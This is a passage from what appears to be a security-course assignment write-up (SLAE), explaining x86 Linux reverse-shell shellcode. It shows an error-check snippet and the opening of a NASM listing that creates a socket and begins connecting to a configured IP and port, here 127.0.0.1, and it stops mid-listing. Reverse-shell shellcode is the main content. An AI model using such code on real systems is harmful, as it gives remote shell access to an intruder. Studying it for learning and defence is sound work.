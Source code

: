 As you may see, since the assignment requirement asked to spawn the reverse
shell if the connection succeeded, there is a small error check to make sure
the shellcode won't try to spawn a shell on a faulty socket descriptor.

{%highlight asm%}

...

test eax, eax ; check if eax is zero
jnz exit_on_error

...

exit_on_error:
	mov bl, 0x1
	xor eax, eax	; zero-ing EAX
	mov al, 0x1
	int 0x80
{%endhighlight%}

## The assembly code

Putting all pieces together, this is the second assignment solution in assembler.

{% highlight assembly %}
; Filename: 	tcp_reverse_shellcode.nasm
; Author:	Paolo Perego <paolo@codiceinsicuro.it>
; Website:  	https://codiceinsicuro.it
; Twitter:    	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	connect to a given IP and PORT and spawning a reverse shell if
;		connection succeded


global _start

section .text

_start:

	; Creating the socket.
	;
	; int socket(int domain, int type, int protocol);
	;
	; socket() is defined as #define __NR_socket 359 on /usr/include/i386-linux-gnu/asm/unistd_32.h
	; AF_INET is defined as 2 in /usr/include/i386-linux-gnu/bits/socket.h
	; SOCK_STREAM is defined as 1 in /usr/include/i386-linux-gnu/bits/socket_type.h
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx

	mov ax, 0x167
	mov bl, 0x2
	mov cl, 0x1
	int 0x80 ; sfd = socket(AF_INET, SOCK_STREAM, 0);
	mov ebx, eax ; storing the socket descriptor into EBX for next syscall

	; Connect to my peer
	;
	; connect() is defined as #define __NR_connect 362 on  /usr/include/i386-linux-gnu/asm/unistd_32.h
	; peer.sin_family 	= AF_INET;
	; peer.sin_port 	= htons(DPORT);
	; peer.sin_addr.s_addr = inet_addr(IP);
	; ret = connect(sfd, (const struct sockaddr *)&peer, sizeof(struct sockaddr_in));

	; 127 = 0x7f
	; 0   = 0x0
	; 0   = 0x0
	; 1   = 0x1